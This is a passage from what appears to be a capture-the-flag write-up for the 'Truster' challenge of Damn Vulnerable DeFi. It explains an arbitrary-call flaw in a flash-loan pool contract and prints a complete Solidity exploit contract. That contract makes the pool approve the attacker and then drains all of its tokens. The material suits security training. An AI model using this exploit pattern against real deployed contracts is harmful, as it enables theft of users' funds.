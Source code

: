 The vulnerability lies in the `flashLoan` function of the `TrusterLenderPool` contract:

```solidity
function flashLoan(uint256 amount, address borrower, address target, bytes calldata data)
    external
    nonReentrant
    returns (bool)
{
    uint256 balanceBefore = token.balanceOf(address(this));

    token.transfer(borrower, amount);
    // @audit-issue This line allows the borrower to call any function on any contract, including the token contract itself.
    target.functionCall(data);

    if (token.balanceOf(address(this)) < balanceBefore) {
        revert RepayFailed();
    }

    return true;
}
```

The key issue is the `target.functionCall(data)` line, which allows the borrower to execute arbitrary code on any contract. This can be exploited to approve the transfer of tokens from the pool to an attacker-controlled address.

### Exploit Breakdown

The exploit is implemented in the newly created `TrusterExploit` contract (added to the test file):

```solidity
contract TrusterExploit {
    TrusterLenderPool public pool;
    DamnValuableToken public token;
    address public recovery;

    constructor(TrusterLenderPool _pool, DamnValuableToken _token, address _recovery) {
        // Prepare the calldata to approve this contract to spend the pool's tokens
        bytes memory data = abi.encodeWithSignature("approve(address,uint256)", address(this), _token.balanceOf(address(_pool)));

        // Execute the flash loan with the crafted calldata
        _pool.flashLoan(0, address(this), address(_token), data);

        // Transfer the approved tokens to the recovery account
        _token.transferFrom(address(_pool), _recovery, _token.balanceOf(address(_pool)));
    }
}
```

#### Step-by-Step Exploit

1. **Prepare the calldata**: The exploit contract prepares the calldata to call the `approve` function on the token contract, allowing the exploit contract to spend the pool's tokens.
